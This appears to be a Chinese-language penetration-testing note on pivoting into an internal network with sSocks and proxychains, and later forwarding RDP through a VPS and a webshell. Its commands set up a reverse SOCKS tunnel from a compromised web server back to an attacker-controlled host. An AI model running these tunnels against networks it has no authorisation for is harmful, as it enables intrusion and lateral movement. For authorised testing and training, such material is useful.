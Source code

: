 ```yaml
---
title: "ssocks"
id: zhfly3453
---
```


# 利用ssocks进行内网穿透

sSocks是一个socks代理工具套装，可用来开启socks代理服务，支持socks5验证，支持IPV6和UDP，并提供反向socks代理服务，即将远程计算机作为socks代理服务端，反弹回本地，极大方便内网的渗透测试，而proxychains代理链是Linux下一款代理设置工具。由于Ssocks不稳定，所以不建议使用。
现在有这么一个环境，我们获取到了位于公网Web服务器的shell，该web服务器是Linux系统，内网中存在另外一台主机，这里假设内网存在一台Web服务器。然后，我们现在要将公网Web服务器设置为代理，访问和探测内网Web服务器的信息。

首先，我们的主机和公网的Web服务器都得安装上Ssocks。
proxychains的话 linux(基于debian)下直接apt install proxychains 就可以了
####Web服务器的操作

```
./rssocks -vv -s 100.100.10.13:9999   #接收100.100.10.13的9999端口的流量 
```

![image](../img/a5833695ecff94600610c1312debdcf9.png)

## 主机的操作

```
首先配置proxychains代理链的配置文件，把最后的内容改成  socks5 127.0.0.1 8080 

./rcsocks -l 1080 -p 9999 -vv   #然后将本地的1080端口的流量转发到9999端口

接下来，我们想要访问和操作操作内网主机192.168.10.19的话，只需要在命令前面加上 proxychains

比如，获得内网Web服务器的网页文件： proxychains curl 192.168.10.19 
```

![image](../img/1f8055ef7e45cf7bc7cc2d619ea9d331.png)

![image](../img/32d0ea47a0e5642efc44c8727090e7c0.png)

## ssocks转发的其他操作

```
第一步，用sSocks在VPS上建立3388与3389端口对应关系，实现流量互通：

root @ kali：〜＃/ root / ssocks-0.0.14 / src / rcsocks -l 3389 -p 3389 -vv

第二步，从攻击端连接VPS的3388端口，建议用freerdp而非rdesktop，因为前者支持远程与本地连接等待，文本复制粘贴，挂载远程文件系统：

root @kali：〜＃xfreerdp / u：administrator / p：admin / v：【你的ip】：3389

第三步，立即在大马上执行端口转发，可能需要连续多次点击开始： `注意，整个过程对步骤先后顺序敏感，VPS上rcsocks端口映射好以后就可以不管了，先在攻击端执行xfreerdp，让其会话保持，再在webshel​​l上转发内网的3389。` 
```